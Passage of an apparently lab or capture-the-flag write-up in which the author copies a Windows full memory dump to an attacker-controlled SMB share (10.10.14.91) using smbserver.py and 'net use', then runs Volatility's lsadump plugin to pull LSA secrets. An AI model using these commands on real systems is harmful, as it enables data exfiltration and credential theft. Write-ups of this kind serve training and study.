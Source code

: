 ```cmd
```

The `mail.txt` file has a message saying that the server has problems and there is a memory dump generated by him/her:

```cmd
C:\Users\mikasaAckerman\Desktop>type mail.txt
type mail.txt
Hello Mikasa,
I tried once again to work with Liza Kazanoff after seeking her help to troubleshoot the BSOD issue on the "DATACENTER-2019" computer. As you know, the problem started occurring after we installed the new update of SQL Server 2019.
I attempted the solutions you provided in your last email, but unfortunately, there was no improvement. Whenever we try to establish a remote SQL connection to the installed instance, the server's CPU starts overheating, and the RAM usage keeps increasing until the BSOD appears, forcing the server to restart.
Nevertheless, Liza has requested me to generate a full memory dump on the Datacenter and send it to you for further assistance in troubleshooting the issue.
Best regards,
```

Probably the memory dump is MEMORY.7z so I will transfer it to my machine as it probably has credentials from lsass or something similar because it dumps **all the memory**:

```bash
❯ smbserver.py -smb2support test $(pwd)
```

```cmd
C:\Users\mikasaAckerman\Desktop>net use z: \\10.10.14.91\test /user:test test123
C:\Users\mikasaAckerman\Desktop>copy MEMORY.7z z:
C:\Users\mikasaAckerman\Desktop>net use /delete z:
```

Now that I have the 7z file I will extract it and see it's the .dmp file as I expected:

```bash
❯ 7z x MEMORY.7z
❯ file MEMORY.DMP
MEMORY.DMP: MS Windows 64bit crash dump, version 15.17763, 2 processors, full dump, 4992030524978970960 pages
```

I will use [volatility](https://github.com/volatilityfoundation/volatility3) to extract sensitive info of the crash dump. First, I will install it:

```bash
❯ git clone https://github.com/volatilityfoundation/volatility3
❯ cd volatility3
❯ python3 setup.py install
❯ sudo python3 setup.py install
```

And using [this cheatsheet](https://book.hacktricks.xyz/generic-methodologies-and-resources/basic-forensic-methodology/memory-dump-analysis/volatility-cheatsheet#hashes-passwords) I will execute it and try to see secrets stored in lsa:

```plaintext
❯ ./vol.py -f ../MEMORY.DMP windows.lsadump.Lsadump
Volatility 3 Framework 2.10.0
Progress:  100.00		PDB scanning finished                                
Key	Secret	Hex

$MACHINE.ACC	ð¦¤¯0àEdÆõ,=sAúÿY�5Ïõ2
                                      e"
                                        O¨ÉÑî"éÄvk>¶?³âÚgëÑ0Ô\
                                                              ¤ææß

<..SNIP..>
```